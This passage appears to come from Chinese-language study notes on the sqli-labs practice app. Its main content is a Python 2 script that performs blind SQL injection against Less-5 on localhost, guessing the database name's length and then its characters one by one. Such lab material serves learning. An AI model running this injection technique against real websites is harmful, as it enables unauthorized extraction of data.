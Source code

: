 ![img](https://github.com/Anthem9/everyday/raw/master/image/v2-2dca7efb7a3b2c083ec37f5fe97c5b1f_hd.jpg)

![img](https://github.com/Anthem9/everyday/raw/master/image/v2-d207e24d969cf59aba5736e089233050_hd.jpg)

* 或者自己编写脚本。（这只是个样例）

```python
import requests
#global baseurl = 'http://127.0.0.1/sqli-labs/Less-5/'

def get_databases():
	for i in range(1,100):
		baseurl = 'http://127.0.0.1/sqli-labs/Less-5/'
		i=str(i)
		url=baseurl+'?id=1\' and (length(database()))='+i+' --+'
		#print url
		try:
			response = requests.get(url,timeout=5)
			if 'You are in' in response.content:
				len=int(i);
				break
		except Exception,e:
			print e
		
		
	print "databases lenth is "+str(len)
	urlt=baseurl+"?id=1' and (ascii(substr(database(),{0},1)))={1}--+"
	result=''
	for i in range(1,len+1):
		for char in range(0,127):
			url=urlt.format(i,char)
			print url
			try:
				response = requests.get(url,timeout=5)
				if 'You are in' in response.content:
					result += chr(char)
					print result+'\n'
					break
			except Exception,e:
				print e
```